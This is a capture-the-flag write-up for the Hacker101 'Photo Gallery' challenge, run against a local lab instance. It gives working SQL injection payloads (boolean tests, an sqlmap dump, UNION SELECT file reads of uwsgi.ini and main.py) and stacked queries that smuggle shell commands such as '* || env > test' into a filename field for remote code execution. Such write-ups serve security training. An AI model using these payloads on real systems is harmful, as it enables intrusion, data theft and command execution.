






# Photo Gallery

## FLAG1 Solution 

When clicked to view the website, we are presented with this.


Based on the image link looks like injectable 

http://127.0.0.1/xxxxxxxxxx/fetch?id=1



Tried with the following

```sql
fetch?id=1 and 1=1
fetch?id=1 and 1=2
```

1=1 works but 1=2 does not and shows some error.


Using SqlMap, the flag is obtained. 

```
python sqlmap.py -u http://127.0.0.1/xxxxxxxxxx/fetch?id=1 --dump
```



## FLAG0 Solution 

Based on flag 1, when fetching an image id, it will return an image from the **files** directory.

http://127.0.0.1/xxxxxxxxxx/fetch?id=1

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

Normally id is integer, so decimal may make an error here.

```sql
fetch?id=1.1
```


So when do UNION SELECT with the image name, it loads the image 1 again.

```sql
id=1.1 UNION SELECT 'files/adorable.jpg' --
```




The application run on [uwsgi-nginx-flask-docker](https://github.com/tiangolo/uwsgi-nginx-flask-docker). Therefore, the configuration file is **uwsgi.ini**

```sql
id=1.1 UNION SELECT 'uwsgi.ini' --
```

The file shows

```
[uwsgi] module = main callable = app 
```

And the main file

```sql
id=1.1 UNION SELECT 'main.py' --
```

Using [main.py](./main.py) the flag is obtained. 



## FLAG2 Solution 

We know there are images taking some of the spaces here, but the total space used are showing 0.

So as we already got the source code of the page, we can check how the space calculated in [line 39][1].

```python
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

So here we can see the commands here.

```bash
du -ch filenames || exit 0
```

And we may change file name to inject with commands here.

As we have the table here

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

By modifying the image title, we have successfully updated file title 3. 

```sql
id=1;UPDATE photos SET title='test' WHERE id=3;COMMIT;--
```



Now we can update **filename** to perform Remote Code Execution (RCE). 

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--]()

```sql
id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** http://127.0.0.1/xxxxxxxxxx/ page to execute the command.

And then go check the execution result

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1.1 UNION SELECT 'test'--]()

```sql
id=1.1 UNION SELECT 'test'--
```

Here we got **ls** results in file **test**

```
Dockerfile files main.py main.pyc prestart.sh requirements.txt test uwsgi.ini 
```

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--]()

```sql
id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** http://127.0.0.1/xxxxxxxxxx/ page to execute the command.

Go to the following url to get the flag. 

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1.1 UNION SELECT 'test'--]()

```sql
id=1.1 UNION SELECT 'test'--
```

Here we got all 3 flags in one place.


[1]: https://github.com/testerting/hacker101-ctf/blob/master/photo_gallery/flag0/main.py#L39
